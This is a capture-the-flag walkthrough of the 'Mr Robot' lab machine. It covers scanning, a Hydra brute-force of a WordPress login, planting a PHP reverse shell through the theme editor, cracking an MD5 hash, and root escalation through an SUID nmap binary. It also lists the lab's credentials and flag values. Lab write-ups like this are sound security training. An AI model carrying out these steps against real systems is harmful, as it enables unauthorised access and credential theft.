 # Mr Robot CTF

**Title:** Mr Robot<br>
**IP Address:** 10.10.221.177<br>

## Scans

### NMAP Scan
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-18 21:41 PST
Nmap scan report for 10.10.221.177 (10.10.221.177)
Host is up (0.27s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
443/tcp open   ssl/http Apache httpd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 49.49 seconds

```

### GoBuster Scan
```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.221.177
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/06/18 21:55:23 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 236] [--> http://10.10.221.177/images/]
/blog                 (Status: 301) [Size: 234] [--> http://10.10.221.177/blog/]  
/rss                  (Status: 301) [Size: 0] [--> http://10.10.221.177/feed/]    
/sitemap              (Status: 200) [Size: 0]                                     
/login                (Status: 302) [Size: 0] [--> http://10.10.221.177/wp-login.php]
/0                    (Status: 301) [Size: 0] [--> http://10.10.221.177/0/]          
/feed                 (Status: 301) [Size: 0] [--> http://10.10.221.177/feed/]       
/video                (Status: 301) [Size: 235] [--> http://10.10.221.177/video/]    
/image                (Status: 301) [Size: 0] [--> http://10.10.221.177/image/]      
/atom                 (Status: 301) [Size: 0] [--> http://10.10.221.177/feed/atom/]  
/wp-content           (Status: 301) [Size: 240] [--> http://10.10.221.177/wp-content/]
/admin                (Status: 301) [Size: 235] [--> http://10.10.221.177/admin/]     
/audio                (Status: 301) [Size: 235] [--> http://10.10.221.177/audio/]     
/wp-login             (Status: 200) [Size: 2613]                                      
/intro                (Status: 200) [Size: 516314]                                    
/css                  (Status: 301) [Size: 233] [--> http://10.10.221.177/css/]       
/rss2                 (Status: 301) [Size: 0] [--> http://10.10.221.177/feed/]        
/license              (Status: 200) [Size: 309]                                       
/wp-includes          (Status: 301) [Size: 241] [--> http://10.10.221.177/wp-includes/]
/js                   (Status: 301) [Size: 232] [--> http://10.10.221.177/js/]         
/Image                (Status: 301) [Size: 0] [--> http://10.10.221.177/Image/]        
/rdf                  (Status: 301) [Size: 0] [--> http://10.10.221.177/feed/rdf/]     
/page1                (Status: 301) [Size: 0] [--> http://10.10.221.177/]              
/readme               (Status: 200) [Size: 64]                                         
/robots               (Status: 200) [Size: 41]
```

## Flags

### Flag 1
1. After the GoBuster scan, `/robots` directory was found. It shows the content:
  ```
  User-agent: *
  fsocity.dic
  key-1-of-3.txt
  ```
2. Visting the page on the directory `/key-1-of-3.txt` gives the first flag:
  ```
  073403c8a58a1f80d943455fb30724b9
  ```


### Flag 2
1. After the GoBuster scan, a `/login` page and `/robots` directory was found. The `/robots` directory shows the content:
  ```
  User-agent: *
  fsocity.dic
  key-1-of-3.txt
  ```
2. Download `fsocity.dic` by going to the directory `/fsocity.dic` and saving the raw page.
3. Brute force username and password on the `/login` page using hydra.
 
 ***For username***
  ```
  $ hydra -L fsocity.dic -p any 10.10.221.177 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30

  [80][http-post-form] host: 10.10.221.177   login: Elliot   password: any
  ```
  ***For password***
  ```
  $ hydra -l Elliot -P fsocity.dic 10.10.221.177 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username" -t 30
  

  ```
  ***Credentials***: `Elliot:ER28-0652`

4. Start a `netcat` listener. Use a port that is usually trusted by firewalls.
  ```
  $ rlwrap nc -lvnp 1520
  ```
5. Use a PHP reverse shell and set the corresponding listener IP address and port.
6. In the admin Dashboard, go to Appearance > Editor, update a PHP file with the code from the PHP reverse shell (e.g. `archive.php`).
7. Load the edited PHP file (e.g. if using `archive.php`, load the URL `http://10.10.221.177/wp-content/themes/twentyfifteen/archive.php`). Reverse shell must now be activated.
8. Go to `/home/robot` directory and open `password.raw-md5` file.
  ```
  robot:c3fcd3d76192e4007dfb496cca67e13b
  ```
9. Decrypt the MD5 hash.
  ```
  Using CrackStation (crackstation.net)

                Hash	            Type	        Result
  c3fcd3d76192e4007dfb496cca67e13b	md5	    abcdefghijklmnopqrstuvwxyz
  ```
10. Spawn TTY shell in the target machine using Python.
  ```
  $ python -c 'import pty; pty.spawn("/bin/sh")'
  ```
11. Login to `robot` account using `su robot` with the password: `abcdefghijklmnopqrstuvwxyz`.
 
 ***Credentials:*** `robot:abcdefghijklmnopqrstuvwxyz`
12. Go to `/home/robot` directory and open `key-2-of-3.txt` file.
  ```
  822c73956184f694993bede3eb39f959
  ```


### Flag 3
1. While using the account `robot`. Gain priveleged access using SUID binary from `nmap`.

  Note: This was found by locating files with SUID binary bit turned on using the command:
  ```
  $ find / -perm +6000 2> /dev/null | grep '/bin/'
  ```
2. Spawn a shell using NMAP (refer to instructions at gtfobins).
  ```
  $ nmap --interactive
  nmap> !sh
  ```
3. Now, as the `root` user, `/root` directory is now accessible. The file `key-3-of-3.txt` is located in the same directory and can be read.
  ```
  04787ddef27c3dee1ee161b21670b4e4
  ```
